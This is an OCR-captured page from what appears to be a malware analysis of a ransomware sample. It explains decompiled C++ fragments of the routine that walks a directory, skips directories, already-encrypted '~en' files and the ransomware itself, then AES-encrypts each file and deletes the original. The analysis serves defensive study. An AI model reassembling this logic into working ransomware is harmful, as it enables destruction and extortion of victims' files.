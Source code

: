 \documentclass[11pt]{article}
\begin{document}
Then the function defines a loop. In this loop, all the files under the 'dir' path will be found by calling \textbf{FindFirstFileW()}. 264 (0x104) is the maximum length of the path string: \lstinline|MAX_PATH = 0x104|.
\begin{lstlisting}[language=c++]
BOOL BVar3;
  do{ /*...*/
      WCHAR local_e88[264];
      ConcatWPath_140007b20(dir, 0x104, (short *)"\\");
      CopyWPath_140007bc0(local_e88, 0x104, dir);
      ConcatWPath_140007b20(local_e88, 0x104, (short *)"*");
      local_1110 = FindFirstFileW(local_e88, &local_10e8);
      /*...*/
      BVar3 = FindNextFileW(local_1110, &local_10e8);
    } while (BVar3 != 0);
\end{lstlisting}

The loop executes the following code:
\begin{itemize}
  \item Exclude directories by determining the file attributes (0x10 for directory).
  \begin{lstlisting}[language=c++]
    if ((local_10e8.dwFileAttributes & 0x10) == 0){/*...*/}
\end{lstlisting}

  \item Compare the first three characters (6 bytes) of the filename with the string '~en', and then exclude the file if they are the same.
  \begin{lstlisting}[language=c++]
    wchar_t local_e98[8];
    copy_14000c700((undefined8 *)local_e98, (undefined8 *)local_10e8.cFileName, 6);
    iVar2 = wcscmp(local_e98, L"~en");
    if (iVar2 != 0){/*...*/}
\end{lstlisting}

  \item Retrieve the path of the executable file of the current process (i.e. ransomware) by calling \textbf{GetModuleFileNameW()}, and then exclude this file.
  \begin{lstlisting}[language=c++]
    WCHAR local_858[264];
    GetModuleFileNameW((HMODULE)0x0, local_858, 0x104);
    _Str2 = PathFindFileNameW(local_858);
    iVar2 = wcscmp(local_10e8.cFileName, _Str2);
    if (iVar2 != 0){/*...*/}
\end{lstlisting}

  \item Encrypt the original file by calling \textbf{AES\_Encrypt\_140007080()}. \\Prefix the filename of encrypted file with '~en' (e.g. 'sample.md' to '~ensample.md'). \\Delete the original file by calling \textbf{DeleteFileW()}.
  \begin{lstlisting}[language=c++]
    CopyWPath_140007bc0(local_648, 0x104, dir);
    output_addr = local_648;
    ConcatWPath_140007b20(output_addr,0x104,L"~en");
    ConcatWPath_140007b20(output_addr, 0x104, local_10e8.cFileName);
    AES_Encrypt_140007080(input_addr, output_addr);
    DeleteFileW(input_addr);
\end{lstlisting}
\end{itemize}
\end{document}
